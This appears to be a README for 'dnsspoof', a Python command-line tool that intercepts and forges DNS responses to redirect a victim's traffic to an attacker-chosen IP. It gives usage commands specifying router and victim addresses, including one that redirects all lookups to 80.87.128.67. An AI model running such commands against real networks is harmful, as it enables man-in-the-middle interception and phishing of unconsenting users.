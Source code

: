 # dnsspoof: DNS Spoofing Tool

`dnsspoof` is a command-line utility designed to intercept and alter DNS responses on a network. It effectively replaces genuine DNS responses with ones crafted by the user, allowing for redirection of traffic to a specified IP address.

## How to Use dnsspoof

To redirect a specific domain to the attacker's machine:

```shell
python dnsspoof.py -r <router_ip> -v <victim_ip> -d <target_domain>

For example, to spoof domaintospoof.com:

python dnsspoof.py -r 192.168.0.1 -v 192.168.0.5 -d domaintospoof.com

To redirect all DNS requests to a particular IP address:

python dnsspoof.py -r <router_ip> -v <victim_ip> -a -t <target_ip>

For instance, to point all DNS lookups to 80.87.128.67:

python dnsspoof.py -r 192.168.0.1 -v 192.168.0.5 -a -t 80.87.128.67
